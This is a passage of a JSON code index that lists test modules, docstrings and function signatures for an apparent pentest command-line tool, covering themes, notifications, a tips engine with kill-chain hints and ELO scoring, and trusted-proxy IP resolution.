"test_invalid_portscan_blob_does_not_crash", "signature": "def test_invalid_portscan_blob_does_not_crash(tmp_path, sessions_dir)"}]}, {"doc": "Tests for the documentation-stats single source of truth.  The module under test lives in ``scripts/``, which is not an importable package, so it is surfaced by importing it via ``importlib.util`` from its path. These tests lock the contract that documentation numbers are derived from the committed command index and never drift independently.", "id": "tests/test_sync_doc_stats.py", "kind": "module", "label": "test_sync_doc_stats.py", "language": "py", "sha256": "376fc45a0af91d4f", "symbol_count": 7, "symbols": [{"kind": "function", "line": 20, "name": "_load_module", "signature": "def _load_module()"}, {"kind": "function", "line": 28, "name": "mod", "signature": "def mod()"}, {"kind": "function", "line": 32, "name": "test_canonical_command_count_reads_index", "signature": "def test_canonical_command_count_reads_index(mod, tmp_path)"}, {"kind": "function", "line": 39, "name": "test_measure_stats_command_count_matches_index", "signature": "def test_measure_stats_command_count_matches_index(mod, tmp_path)"}, {"kind": "function", "line": 67, "name": "test_sync_check_does_not_write", "signature": "def test_sync_check_does_not_write(mod, tmp_path)"}, {"kind": "function", "line": 80, "name": "test_sync_apply_rewrites_when_stale", "signature": "def test_sync_apply_rewrites_when_stale(mod, tmp_path)"}, {"kind": "function", "line": 92, "name": "test_render_formats_template", "signature": "def test_render_formats_template(mod)"}]}, {"doc": "Tests for cli/themes.py.  Verifies registry membership, default fallback behaviour and the ``payload.json``-driven selector. No Textual or terminal interaction.", "id": "tests/test_themes.py", "kind": "module", "label": "test_themes.py", "language": "py", "sha256": "214604625b473420", "symbol_count": 6, "symbols": [{"doc": "The registry exposes the default plus the three alternates.", "kind": "function", "line": 24, "name": "test_themes_registry_contains_required_entries", "signature": "def test_themes_registry_contains_required_entries()"}, {"doc": "Unknown names fall back to the default theme without raising.", "kind": "function", "line": 30, "name": "test_get_theme_returns_default_for_unknown_name", "signature": "def test_get_theme_returns_default_for_unknown_name()"}, {"doc": "Theme names are normalised before lookup.", "kind": "function", "line": 35, "name": "test_get_theme_is_case_insensitive", "signature": "def test_get_theme_is_case_insensitive()"}, {"doc": "``None`` payloads return the default theme.", "kind": "function", "line": 40, "name": "test_theme_from_payload_none_yields_default", "signature": "def test_theme_from_payload_none_yields_default()"}, {"doc": "A valid payload key swaps the theme.", "kind": "function", "line": 45, "name": "test_theme_from_payload_picks_named_theme", "signature": "def test_theme_from_payload_picks_named_theme()"}, {"doc": "Themes are frozen dataclasses to prevent in-place mutation.", "kind": "function", "line": 51, "name": "test_theme_dataclass_is_immutable", "signature": "def test_theme_dataclass_is_immutable()"}]}, {"doc": "Tests for cli/timeline_browser.py.  Verifies CSV ingestion, filtering and column resolution. Textual is not exercised here.", "id": "tests/test_timeline_browser.py", "kind": "module", "label": "test_timeline_browser.py", "language": "py", "sha256": "0ae3839db928613a", "symbol_count": 8, "symbols": [{"kind": "function", "line": 24, "name": "_write_report", "signature": "def _write_report(path, rows)"}, {"doc": "Missing report yields an empty list, never raises.", "kind": "function", "line": 34, "name": "test_reader_returns_empty_when_csv_missing", "signature": "def test_reader_returns_empty_when_csv_missing(tmp_path)"}, {"doc": "CSV rows become :class:`TimelineEntry` objects with stripped values.", "kind": "function", "line": 40, "name": "test_reader_parses_rows", "signature": "def test_reader_parses_rows(tmp_path)"}, {"doc": "Filter substring matches every column value of an entry.", "kind": "function", "line": 67, "name": "test_state_filters_across_columns", "signature": "def test_state_filters_across_columns(tmp_path)"}, {"doc": "An empty filter returns every entry.", "kind": "function", "line": 84, "name": "test_state_filter_empty_returns_all", "signature": "def test_state_filter_empty_returns_all(tmp_path)"}, {"doc": "The first non-empty source key wins.", "kind": "function", "line": 92, "name": "test_column_value_falls_back_through_source_keys", "signature": "def test_column_value_falls_back_through_source_keys(tmp_path)"}, {"doc": "Reload forces the next ``entries`` call to re-read disk.", "kind": "function", "line": 102, "name": "test_state_reload_drops_cache", "signature": "def test_state_reload_drops_cache(tmp_path)"}, {"doc": "Field values longer than ``max_field_chars`` are truncated.", "kind": "function", "line": 113, "name": "test_reader_truncates_long_field_values", "signature": "def test_reader_truncates_long_field_values(tmp_path)"}]}, {"doc": "Tests for cli.tips_engine — unified post-command suggestion engine.  Covers: - TipsConfig defaults and customisation - TipsEngine construction and state management - Kill-chain hint computation - ELO scoring calculation - Badge award logic - VRI threshold generation - Sanitisation of commands_seen", "id": "tests/test_tips_engine.py", "kind": "module", "label": "test_tips_engine.py", "language": "py", "sha256": "22a41c990f55acb9", "symbol_count": 67, "symbols": [{"kind": "function", "line": 39, "name": "tmp_sessions", "signature": "def tmp_sessions()"}, {"kind": "function", "line": 48, "name": "config", "signature": "def config()"}, {"kind": "function", "line": 70, "name": "engine", "signature": "def engine(config, tmp_sessions)"}, {"kind": "class", "line": 77, "name": "TestTipsConfig", "signature": "class TestTipsConfig"}, {"kind": "class", "line": 104, "name": "TestEngagementState", "signature": "class TestEngagementState"}, {"kind": "class", "line": 119, "name": "TestTipsEngineConstruction", "signature": "class TestTipsEngineConstruction"}, {"kind": "class", "line": 138, "name": "TestKillChainHints", "signature": "class TestKillChainHints"}, {"kind": "class", "line": 152, "name": "TestChainActiveSuppression", "signature": "class TestChainActiveSuppression"}, {"kind": "class", "line": 200, "name": "TestHintsLevelGating", "signature": "class TestHintsLevelGating"}, {"kind": "class", "line": 280, "name": "TestELOScoring", "signature": "class TestELOScoring"}, {"kind": "class", "line": 305, "name": "TestVRIThresholds", "signature": "class TestVRIThresholds"}, {"kind": "class", "line": 318, "name": "TestCommandsSeenSanitisation", "signature": "class TestCommandsSeenSanitisation"}, {"kind": "class", "line": 342, "name": "TestSkipCommands", "signature": "class TestSkipCommands"}, {"kind": "class", "line": 357, "name": "TestCommandNameRegex", "signature": "class TestCommandNameRegex"}, {"kind": "class", "line": 373, "name": "TestTruncate", "signature": "class TestTruncate"}, {"kind": "class", "line": 385, "name": "TestKarmaNames", "signature": "class TestKarmaNames"}, {"kind": "class", "line": 396, "name": "TestBuildDefaultConfig", "signature": "class TestBuildDefaultConfig"}, {"kind": "method", "line": 78, "name": "test_default_config_has_sensible_values", "signature": "def test_default_config_has_sensible_values(self)"}, {"kind": "method", "line": 86, "name": "test_build_default_tips_config_populates_tables", "signature": "def test_build_default_tips_config_populates_tables(self)"}, {"kind": "method", "line": 105, "name": "test_default_state", "signature": "def test_default_state(self)"}, {"kind": "method", "line": 113, "name": "test_badges_field_defaults_to_list", "signature": "def test_badges_field_defaults_to_list(self)"}, {"kind": "method", "line": 120, "name": "test_engine_initialises_with_config", "signature": "def test_engine_initialises_with_config(self, config)"}, {"kind": "method", "line": 125, "name": "test_engine_can_disable", "signature": "def test_engine_can_disable(self, config)"}, {"kind": "method", "line": 130, "name": "test_render_skips_disabled_engine", "signature": "def test_render_skips_disabled_engine(self, config, capsys)"}, {"kind": "method", "line": 139, "name": "test_ping_suggests_lazynmap", "signature": "def test_ping_suggests_lazynmap(self, engine)"}, {"kind": "method", "line": 143, "name": "test_lazynmap_suggests_auto_pwn", "signature": "def test_lazynmap_suggests_auto_pwn(self, engine)"}, {"kind": "method", "line": 147, "name": "test_auto_pwn_suggests_hunt", "signature": "def test_auto_pwn_suggests_hunt(self, engine)"}, {"kind": "method", "line": 153, "name": "_render_with_surfaces_stubbed", "signature": "def _render_with_surfaces_stubbed(self, engine)"}, {"kind": "method", "line": 179, "name": "test_chain_active_suppresses_competing_suggestion_surfaces", "signature": "def test_chain_active_suppresses_competing_suggestion_surfaces(self, engine)"}, {"kind": "method", "line": 190, "name": "test_chain_inactive_keeps_all_surfaces", "signature": "def test_chain_inactive_keeps_all_surfaces(self, engine)"}, {"kind": "method", "line": 201, "name": "_stub_surfaces", "signature": "def _stub_surfaces(self, engine)"}, {"kind": "method", "line": 225, "name": "test_hints_level_constants", "signature": "def test_hints_level_constants(self)"}, {"kind": "method", "line": 232, "name": "test_default_config_is_on", "signature": "def test_default_config_is_on(self)"}, {"kind": "method", "line": 235, "name": "test_off_suppresses_all_surfaces", "signature": "def test_off_suppresses_all_surfaces(self, engine)"}, {"kind": "method", "line": 245, "name": "test_minimal_runs_autosuggest_only", "signature": "def test_minimal_runs_autosuggest_only(self, engine)"}, {"kind": "method", "line": 255, "name": "test_on_runs_every_surface", "signature": "def test_on_runs_every_surface(self, engine)"}, {"kind": "method", "line": 264, "name": "test_invalid_level_falls_back_to_on", "signature": "def test_invalid_level_falls_back_to_on(self, engine)"}, {"kind": "method", "line": 271, "name": "test_get_hints_level_reads_config", "signature": "def test_get_hints_level_reads_config(self, engine)"}, {"kind": "method", "line": 275, "name": "test_get_hints_level_defaults_for_invalid", "signature": "def test_get_hints_level_defaults_for_invalid(self, engine)"}, {"kind": "method", "line": 281, "name": "test_base_elo_awarded", "signature": "def test_base_elo_awarded(self, engine)"}, {"kind": "method", "line": 285, "name": "test_high_value_command_bonus", "signature": "def test_high_value_command_bonus(self, engine)"}, {"kind": "method", "line": 289, "name": "test_first_time_bonus", "signature": "def test_first_time_bonus(self, config)"}, {"kind": "method", "line": 294, "name": "test_new_phase_bonus", "signature": "def test_new_phase_bonus(self, config)"}, {"kind": "method", "line": 299, "name": "test_no_double_count_first_time_plus_new_phase", "signature": "def test_no_double_count_first_time_plus_new_phase(self, config)"}, {"kind": "method", "line": 306, "name": "test_next_threshold_increases", "signature": "def test_next_threshold_increases(self, engine)"}, {"kind": "method", "line": 312, "name": "test_next_threshold_never_less_than_two", "signature": "def test_next_threshold_never_less_than_two(self, engine)"}, {"kind": "method", "line": 319, "name": "test_valid_commands_kept", "signature": "def test_valid_commands_kept(self)"}, {"kind": "method", "line": 325, "name": "test_invalid_entries_dropped", "signature": "def test_invalid_entries_dropped(self)"}, {"kind": "method", "line": 332, "name": "test_known_filter_drops_unknown", "signature": "def test_known_filter_drops_unknown(self)"}, {"kind": "method", "line": 343, "name": "test_skip_set_contains_common_noise", "signature": "def test_skip_set_contains_common_noise(self)"}, {"kind": "method", "line": 350, "name": "test_ping_not_skipped", "signature": "def test_ping_not_skipped(self)"}, {"kind": "method", "line": 353, "name": "test_auto_pwn_not_skipped", "signature": "def test_auto_pwn_not_skipped(self)"}, {"kind": "method", "line": 358, "name": "test_valid_command_names", "signature": "def test_valid_command_names(self)"}, {"kind": "method", "line": 365, "name": "test_invalid_command_names", "signature": "def test_invalid_command_names(self)"}, {"kind": "method", "line": 374, "name": "test_short_value_untouched", "signature": "def test_short_value_untouched(self)"}, {"kind": "method", "line": 377, "name": "test_long_value_truncated", "signature": "def test_long_value_truncated(self)"}, {"kind": "method", "line": 381, "name": "test_empty_value", "signature": "def test_empty_value(self)"}, {"kind": "method", "line": 386, "name": "test_noob_at_zero", "signature": "def test_noob_at_zero(self)"}, {"kind": "method", "line": 389, "name": "test_rookie_at_thousand", "signature": "def test_rookie_at_thousand(self)"}, {"kind": "method", "line": 392, "name": "test_godlike_above_6000", "signature": "def test_godlike_above_6000(self)"}, {"kind": "method", "line": 397, "name": "test_config_includes_automation_commands", "signature": "def test_config_includes_automation_commands(self)"}, {"kind": "method", "line": 410, "name": "test_config_has_high_value_for_new_commands", "signature": "def test_config_has_high_value_for_new_commands(self)"}, {"kind": "method", "line": 417, "name": "test_config_has_session_tips", "signature": "def test_config_has_session_tips(self)"}, {"kind": "function", "line": 164, "name": "stub", "signature": "def stub(name)"}, {"kind": "function", "line": 211, "name": "stub", "signature": "def stub(name)"}, {"kind": "function", "line": 165, "name": "record", "signature": "def record()"}, {"kind": "function", "line": 212, "name": "record", "signature": "def record()"}]}, {"doc": "Tests for cli/toast_bus.py.  Covers offset persistence, JSONL parsing, severity-to-role mapping, budget enforcement and the toggle-by-payload behaviour. The Textual app is never instantiated — the tests use the Rich console capture mode.", "id": "tests/test_toast_bus.py", "kind": "module", "label": "test_toast_bus.py", "language": "py", "sha256": "de83d63010a891d0", "symbol_count": 18, "symbols": [{"kind": "function", "line": 34, "name": "_write_jsonl", "signature": "def _write_jsonl(path, records)"}, {"kind": "function", "line": 42, "name": "_append_jsonl", "signature": "def _append_jsonl(path, records)"}, {"doc": "Offsets persist across :class:`ToastState` instances.", "kind": "function", "line": 49, "name": "test_state_round_trip", "signature": "def test_state_round_trip(tmp_path)"}, {"doc": "Negative offsets are coerced to zero.", "kind": "function", "line": 59, "name": "test_state_clamps_negative_offsets", "signature": "def test_state_clamps_negative_offsets(tmp_path)"}, {"doc": "A second read returns no events when the offset is current.", "kind": "function", "line": 67, "name": "test_reader_returns_unseen_events_only", "signature": "def test_reader_returns_unseen_events_only(tmp_path)"}, {"doc": "Non-JSON lines are skipped without raising.", "kind": "function", "line": 80, "name": "test_reader_handles_malformed_lines", "signature": "def test_reader_handles_malformed_lines(tmp_path)"}, {"doc": "Severity strings map to theme roles via the configured table.", "kind": "function", "line": 91, "name": "test_formatter_uses_theme_role_for_severity", "signature": "def test_formatter_uses_theme_role_for_severity()"}, {"doc": "At most ``max_per_tick_default`` events are printed in one call.", "kind": "function", "line": 109, "name": "test_bus_render_respects_per_tick_budget", "signature": "def test_bus_render_respects_per_tick_budget(tmp_path)"}, {"doc": "The bus is a no-op when ``enabled`` is False.", "kind": "function", "line": 127, "name": "test_bus_render_disabled_returns_zero", "signature": "def test_bus_render_disabled_returns_zero(tmp_path)"}, {"doc": "``mark_all_seen`` advances the offset for every configured file.", "kind": "function", "line": 140, "name": "test_bus_mark_all_seen_consumes_pending", "signature": "def test_bus_mark_all_seen_consumes_pending(tmp_path)"}, {"doc": "Missing payload flag yields True so first runs see notifications.", "kind": "function", "line": 157, "name": "test_toasts_enabled_default_true", "signature": "def test_toasts_enabled_default_true()"}, {"doc": "The one-shot helper returns the number of toast lines printed.", "kind": "function", "line": 165, "name": "test_render_toasts_returns_count", "signature": "def test_render_toasts_returns_count(tmp_path)"}, {"doc": "The factory propagates ``toast_max_per_tick`` into the config.", "kind": "function", "line": 175, "name": "test_build_default_bus_honours_budget", "signature": "def test_build_default_bus_honours_budget(tmp_path)"}, {"doc": "Appended events past the previous offset are surfaced on next read.", "kind": "function", "line": 187, "name": "test_reader_picks_up_new_events_after_offset", "signature": "def test_reader_picks_up_new_events_after_offset(tmp_path)"}, {"doc": "Build one toast event for formatter tests.", "kind": "function", "line": 199, "name": "_toast_event", "signature": "def _toast_event(kind, severity, summary)"}, {"doc": "ENGAGE_DONE keeps its complete message instead of a truncated line.", "kind": "function", "line": 211, "name": "test_prominent_completion_renders_full_text", "signature": "def test_prominent_completion_renders_full_text()"}, {"doc": "Error events render as toastr panels with full text.", "kind": "function", "line": 229, "name": "test_prominent_severity_renders_panel", "signature": "def test_prominent_severity_renders_panel()"}, {"doc": "Events beyond the tick budget surface as a digest, never silently.", "kind": "function", "line": 242, "name": "test_over_budget_events_collapse_into_digest", "signature": "def test_over_budget_events_collapse_into_digest()"}]}, {"doc": "TDD tests for the trusted proxy resolver contract.  Contract: ``lazyc2.security.trusted_proxy.TrustedProxyResolver.client_ip`` returns the real client IP, ignoring spoofed ``X-Forwarded-For`` entries when no trusted proxy count is configured.  Invariants:  1. ``trusted_count=0``: always returns ``remote_addr`` and ignores ``X-Forwarded-For`` entirely. 2. ``trusted_count=N``: parses ``X-Forwarded-For`` right-to-left, skipping the rightmost N entries, and returns the leftmost untrusted address. 3. Missing or empty ``X-Forwarded-For`` falls back to ``remote_addr``. 4. ``is_operator(remote_addr)`` matches the configured operator allowlist.", "id": "tests/test_trusted_proxy.py", "kind": "module", "label": "test_trusted_proxy.py", "language": "py", "sha256": "993d513040d484b4", "symbol_count": 11, "symbols": [{"doc": "Without a trusted proxy, X-Forwarded-For is ignored.", "kind": "class", "line": 22, "name": "TestNoProxy", "signature": "class TestNoProxy"}, {"doc": "With a trusted proxy, X-Forwarded-For is parsed.", "kind": "class", "line": 43, "name": "TestTrustedProxy", "signature": "class TestTrustedProxy"}, {"doc": "Verify operator allowlist checks.", "kind": "class", "line": 99, "name": "TestIsOperator", "signature": "class TestIsOperator"}, {"kind": "method", "line": 25, "name": "test_remote_addr_returned", "signature": "def test_remote_addr_returned(self)"}, {"kind": "method", "line": 38, "name": "test_no_header_falls_back_to_remote", "signature": "def test_no_header_falls_back_to_remote(self)"}, {"kind": "method", "line": 46, "name": "test_single_proxy_returns_leftmost", "signature": "def test_single_proxy_returns_leftmost(self)"}, {"kind": "method", "line": 59, "name": "test_two_proxies_returns_leftmost", "signature": "def test_two_proxies_returns_leftmost(self)"}, {"kind": "method", "line": 72, "name": "test_insufficient_chain_falls_back", "signature": "def test_insufficient_chain_falls_back(self)"}, {"kind": "method", "line": 85, "name": "test_empty_header_falls_back", "signature": "def test_empty_header_falls_back(self)"}, {"kind": "method", "line": 102, "name": "test_match", "signature": "def test_match(self)"}, {"kind": "method", "line": 109, "name": "test_no_match", "signature": "def test_no_match(self)"}]}, {"doc": "Tests for cli.splash — the animated first-run overlay.", "id": "tests/test_tui_splash.py", "kind": "module", "label": "test_tui_splash.py", "language": "py", "sha256": "3c6b8c1a0994495d", "symbol_count": 17, "symbols": [{"doc": "Build a Rich console that writes into an in-memory buffer.", "kind": "function", "line": 19, "name": "_console", "signature": "def _console()"}, {"kind": "class", "line": 30, "name": "SplashInstantEffectTests", "signature": "class SplashInstantEffectTests(TestCase)"}, {"kind": "class", "line": 67, "name": "SplashTypewriterEffectTests", "signature": "class SplashTypewriterEffectTests(TestCase)"}, {"kind": "class", "line": 81, "name": "SplashDispatchTests", "signature": "class SplashDispatchTests(TestCase)"}, {"kind": "class", "line": 145, "name": "SplashEdgeCaseTests", "signature": "class SplashEdgeCaseTests(TestCase)"}, {"kind": "method", "line": 31, "name": "test_instant_renders_every_line", "signature": "def test_instant_renders_every_line(self)"}, {"kind": "method", "line": 44, "name": "test_instant_does_not_block", "signature": "def test_instant_does_not_block(self)"}, {"kind": "method", "line": 56, "name": "test_instant_emits_ansi_for_known_tokens", "signature": "def test_instant_emits_ansi_for_known_tokens(self)"}, {"kind": "method", "line": 68, "name": "test_typewriter_renders_all_lines_when_total_seconds_high", "signature": "def test_typewriter_renders_all_lines_when_total_seconds_high(self)"}, {"kind": "method", "line": 82, "name": "test_render_splash_dispatches_instant_for_zero_seconds", "signature": "def test_render_splash_dispatches_instant_for_zero_seconds(self)"}, {"kind": "method", "line": 92, "name": "test_render_splash_dispatches_instant_when_explicit", "signature": "def test_render_splash_dispatches_instant_when_explicit(self)"}, {"kind": "method", "line": 103, "name": "test_render_splash_unknown_effect_falls_back_to_instant", "signature": "def test_render_splash_unknown_effect_falls_back_to_instant(self)"}, {"kind": "method", "line": 114, "name": "test_render_splash_uses_payload_theme_when_provided", "signature": "def test_render_splash_uses_payload_theme_when_provided(self)"}, {"kind": "method", "line": 124, "name": "test_render_splash_clear_after_emits_clear_escape", "signature": "def test_render_splash_clear_after_emits_clear_escape(self)"}, {"kind": "method", "line": 134, "name": "test_render_splash_no_clear_when_disabled", "signature": "def test_render_splash_no_clear_when_disabled(self)"}, {"kind": "method", "line": 146, "name": "test_empty_lines_is_noop", "signature": "def test_empty_lines_is_noop(self)"}, {"kind": "method", "line": 156, "name": "test_lines_with_brackets_render_verbatim", "signature": "def test_lines_with_brackets_render_verbatim(self)"}]}, {"doc": "Tests for the cli/style semantic token layer.", "id": "tests/test_tui_style.py", "kind": "module", "label": "test_tui_style.py", "language": "py", "sha256": "cbf9a993ee9efa92", "symbol_count": 8, "symbols": [{"kind": "class", "line": 14, "name": "StyleTokenTests", "signature": "class StyleTokenTests(TestCase)"}, {"kind": "method", "line": 15, "name": "test_known_token_returns_theme_attribute", "signature": "def test_known_token_returns_theme_attribute(self)"}, {"kind": "method", "line": 21, "name": "test_unknown_token_falls_back_to_white", "signature": "def test_unknown_token_falls_back_to_white(self)"}, {"kind": "method", "line": 25, "name": "test_active_tokens_covers_every_key", "signature": "def test_active_tokens_covers_every_key(self)"}, {"kind": "method", "line": 32, "name": "test_active_tokens_honours_payload", "signature": "def test_active_tokens_honours_payload(self)"}, {"kind": "method", "line": 39, "name": "test_paint_returns_rich_text_with_style", "signature": "def test_paint_returns_rich_text_with_style(self)"}, {"kind": "method", "line": 44, "name": "test_render_prompt_emits_segments_separated_by_bar", "signature": "def test_render_prompt_emits_segments_separated_by_bar(self)"}, {"kind": "method", "line": 59, "name": "test_render_prompt_empty_is_noop", "signature": "def test_render_prompt_empty_is_noop(self)"}]}, {"doc": "Tests for the cli.tui_theme command logic.", "id": "tests/test_tui_theme_command.py", "kind": "module", "label": "test_tui_theme_command.py", "language": "py", "sha256": "7c969ca3e3e1bf84", "symbol_count": 19, "symbols": [{"doc": "Minimal stand-in for the payload writer used in tests.", "kind": "class", "line": 11, "name": "RecordingSave", "signature": "class RecordingSave"}, {"doc": "Build a fresh payload dict with optional overrides.", "kind": "function", "line": 21, "name": "_payload", "signature": "def _payload()"}, {"kind": "class", "line": 28, "name": "TuiThemeListingTests", "signature": "class TuiThemeListingTests(TestCase)"}, {"kind": "class", "line": 46, "name": "TuiThemeSwitchTests", "signature": "class TuiThemeSwitchTests(TestCase)"}, {"kind": "class", "line": 78, "name": "TuiThemeCycleTests", "signature": "class TuiThemeCycleTests(TestCase)"}, {"kind": "class", "line": 105, "name": "TuiThemeRegistrationConsistencyTests", "signature": "class TuiThemeRegistrationConsistencyTests(TestCase)"}, {"kind": "method", "line": 14, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 17, "name": "__call__", "signature": "def __call__(self, payload)"}, {"kind": "method", "line": 29, "name": "test_empty_args_lists_every_registered_theme", "signature": "def test_empty_args_lists_every_registered_theme(self)"}, {"kind": "method", "line": 38, "name": "test_listing_marks_current_theme", "signature": "def test_listing_marks_current_theme(self)"}, {"kind": "method", "line": 47, "name": "test_known_name_switches_and_persists", "signature": "def test_known_name_switches_and_persists(self)"}, {"kind": "method", "line": 55, "name": "test_unknown_name_does_not_mutate", "signature": "def test_unknown_name_does_not_mutate(self)"}, {"kind": "method", "line": 63, "name": "test_case_insensitive_lookup", "signature": "def test_case_insensitive_lookup(self)"}, {"kind": "method", "line": 70, "name": "test_reset_returns_to_default", "signature": "def test_reset_returns_to_default(self)"}, {"kind": "method", "line": 79, "name": "test_cycle_advances_in_theme_order", "signature": "def test_cycle_advances_in_theme_order(self)"}, {"kind": "method", "line": 87, "name": "test_cycle_wraps_around", "signature": "def test_cycle_wraps_around(self)"}, {"kind": "method", "line": 94, "name": "test_prev_walks_backwards_and_wraps", "signature": "def test_prev_walks_backwards_and_wraps(self)"}, {"kind": "method", "line": 106, "name": "test_theme_order_covers_every_registered_theme", "signature": "def test_theme_order_covers_every_registered_theme(self)"}, {"kind": "method", "line": 109, "name": "test_theme_order_has_no_duplicates", "signature": "def test_theme_order_has_no_duplicates(self)"}]}, {"doc": "Tests for the four new themes added on top of the original four.  The original theme set (default, dim, bright, colorblind) is covered by test_tui_style.py. These tests assert the *new* themes (solarized, monokai, gruvbox, high_contrast) are wired correctly, that their hex colors parse under Rich's truecolor engine, and that the resolver returns the right theme for each name.", "id": "tests/test_tui_themes.py", "kind": "module", "label": "test_tui_themes.py", "language": "py", "sha256": "3c558cb5f77143d7", "symbol_count": 15, "symbols": [{"kind": "class", "line": 39, "name": "NewThemeRegistrationTests", "signature": "class NewThemeRegistrationTests(TestCase)"}, {"doc": "Render every token of every new theme through Rich.\n\nThis catches the case where a hex color like ``#b58900`` is set as\na token style but Rich silently drops it (e.g. when color_system\nis downgraded to ``\"standard\"``). We force truecolor and assert\nANSI escapes are emitted.", "kind": "class", "line": 86, "name": "NewThemeRenderTests", "signature": "class NewThemeRenderTests(TestCase)"}, {"kind": "class", "line": 130, "name": "ThemeOrderTests", "signature": "class ThemeOrderTests(TestCase)"}, {"kind": "method", "line": 40, "name": "test_every_new_theme_is_registered", "signature": "def test_every_new_theme_is_registered(self)"}, {"kind": "method", "line": 45, "name": "test_original_themes_remain_registered", "signature": "def test_original_themes_remain_registered(self)"}, {"kind": "method", "line": 50, "name": "test_get_theme_resolves_every_new_name", "signature": "def test_get_theme_resolves_every_new_name(self)"}, {"kind": "method", "line": 55, "name": "test_get_theme_uses_case_insensitive_lookup", "signature": "def test_get_theme_uses_case_insensitive_lookup(self)"}, {"kind": "method", "line": 59, "name": "test_unknown_name_falls_back_to_default", "signature": "def test_unknown_name_falls_back_to_default(self)"}, {"kind": "method", "line": 64, "name": "test_theme_from_payload_picks_each_new_theme", "signature": "def test_theme_from_payload_picks_each_new_theme(self)"}, {"kind": "method", "line": 72, "name": "test_new_themes_have_unique_color_palettes", "signature": "def test_new_themes_have_unique_color_palettes(self)"}, {"kind": "method", "line": 76, "name": "test_new_themes_have_non_empty_token_values", "signature": "def test_new_themes_have_non_empty_token_values(self)"}, {"kind": "method", "line": 95, "name": "test_every_token_renders_with_ansi_escapes", "signature": "def test_every_token_renders_with_ansi_escapes(self)"}, {"kind": "method", "line": 112, "name": "test_every_token_renders_with_ansi_escapes_in_256color", "signature": "def test_every_token_renders_with_ansi_escapes_in_256color(self)"}, {"kind": "method", "line": 131, "name": "test_order_covers_every_registered_theme_exactly_once", "signature": "def test_order_covers_every_registered_theme_exactly_once(self)"}, {"kind": "method", "line": 135, "name": "test_order_is_reexported_by_tui_theme_command", "signature": "def test_order_is_reexported_by_tui_theme_command(self)"}]}, {"doc": "Contract tests for UnifiedBridge.delegate agent polling.  SDD contract: ``delegate`` drives the public agent-bridge API (``start_agent`` + ``get_agent_status``/``get_agent_result``); the constructor/thread internals of ``AgentBridgeWorker`` are never touched.", "id": "tests/test_unified_bridge_delegate.py", "kind": "module", "label": "test_unified_bridge_delegate.py", "language": "py", "sha256": "5e8dd2692dc16881", "symbol_count": 9, "symbols": [{"kind": "function", "line": 16, "name": "unified_bridge", "signature": "def unified_bridge(monkeypatch)"}, {"kind": "function", "line": 25, "name": "_patch_bridge_api", "signature": "def _patch_bridge_api(monkeypatch, statuses, result)"}, {"kind": "function", "line": 40, "name": "test_delegate_polls_until_completion", "signature": "def test_delegate_polls_until_completion(monkeypatch, unified_bridge)"}, {"kind": "function", "line": 55, "name": "test_delegate_times_out_when_agent_never_finishes", "signature": "def test_delegate_times_out_when_agent_never_finishes(monkeypatch, unified_bridge)"}, {"kind": "function", "line": 66, "name": "test_delegate_reports_agent_failure", "signature": "def test_delegate_reports_agent_failure(monkeypatch, unified_bridge)"}, {"kind": "function", "line": 77, "name": "test_delegate_surfaces_missing_agent", "signature": "def test_delegate_surfaces_missing_agent(monkeypatch, unified_bridge)"}, {"kind": "function", "line": 87, "name": "test_delegate_wraps_start_errors", "signature": "def test_delegate_wraps_start_errors(monkeypatch, unified_bridge)"}, {"kind": "function", "line": 30, "name": "fake_start", "signature": "def fake_start(goal, backend, runner, max_iterations)"}, {"kind": "function", "line": 90, "name": "boom", "signature": "def boom()"}]}, {"doc": "Tests for modules/unified_dashboard.py.", "id": "tests/test_unified_dashboard.py", "kind": "module", "label": "test_unified_dashboard.py", "language": "py", "sha256": "b16c39300fa87e33", "symbol_count": 18, "symbols": [{"kind": "class", "line": 10, "name": "TestUnifiedDashboardInit", "signature": "class TestUnifiedDashboardInit"}, {"kind": "class", "line": 21, "name": "TestWorldModelCollection", "signature": "class TestWorldModelCollection"}, {"kind": "class", "line": 36, "name": "TestDaemonStatus", "signature": "class TestDaemonStatus"}, {"kind": "class", "line": 51, "name": "TestUnifiedSnapshot", "signature": "class TestUnifiedSnapshot"}, {"kind": "class", "line": 74, "name": "TestRenderUnified", "signature": "class TestRenderUnified"}, {"kind": "class", "line": 95, "name": "TestExportJson", "signature": "class TestExportJson"}, {"kind": "method", "line": 11, "name": "test_default_init", "signature": "def test_default_init(self, tmp_path)"}, {"kind": "method", "line": 15, "name": "test_get_unified_dashboard_singleton", "signature": "def test_get_unified_dashboard_singleton(self, tmp_path)"}, {"kind": "method", "line": 22, "name": "test_collect_world_model_exists", "signature": "def test_collect_world_model_exists(self, tmp_path)"}, {"kind": "method", "line": 30, "name": "test_collect_world_model_missing", "signature": "def test_collect_world_model_missing(self, tmp_path)"}, {"kind": "method", "line": 37, "name": "test_collect_daemon_status_exists", "signature": "def test_collect_daemon_status_exists(self, tmp_path)"}, {"kind": "method", "line": 45, "name": "test_collect_daemon_status_missing", "signature": "def test_collect_daemon_status_missing(self, tmp_path)"}, {"kind": "method", "line": 52, "name": "test_snapshot_keys", "signature": "def test_snapshot_keys(self, tmp_path)"}, {"kind": "method", "line": 67, "name": "test_snapshot_timestamp", "signature": "def test_snapshot_timestamp(self, tmp_path)"}, {"kind": "method", "line": 75, "name": "test_render_contains_header", "signature": "def test_render_contains_header(self, tmp_path)"}, {"kind": "method", "line": 80, "name": "test_render_contains_sections", "signature": "def test_render_contains_sections(self, tmp_path)"}, {"kind": "method", "line": 89, "name": "test_render_contains_timestamp", "signature": "def test_render_contains_timestamp(self, tmp_path)"}, {"kind": "method", "line": 96, "name": "test_export_json", "signature": "def test_export_json(self, tmp_path)"}]}, {"doc": "Viral adoption assets: GIFs, smoke script, drift CI, launch kit.", "id": "tests/test_viral_adoption.py", "kind": "module", "label": "test_viral_adoption.py", "language": "py", "sha256": "c8fb3103f5edad3e", "symbol_count": 7, "symbols": [{"kind": "function", "line": 8, "name": "test_demo_gifs_exist_and_nonempty", "signature": "def test_demo_gifs_exist_and_nonempty()"}, {"doc": "Every command shown in a GIF must exist as do_* or addon.", "kind": "function", "line": 23, "name": "test_demo_gif_commands_exist_in_source", "signature": "def test_demo_gif_commands_exist_in_source()"}, {"kind": "function", "line": 75, "name": "test_readme_links_viral_assets", "signature": "def test_readme_links_viral_assets()"}, {"kind": "function", "line": 83, "name": "test_smoke_script_covers_onboarding", "signature": "def test_smoke_script_covers_onboarding()"}, {"kind": "function", "line": 89, "name": "test_docs_drift_workflow_exists", "signature": "def test_docs_drift_workflow_exists()"}, {"kind": "function", "line": 95, "name": 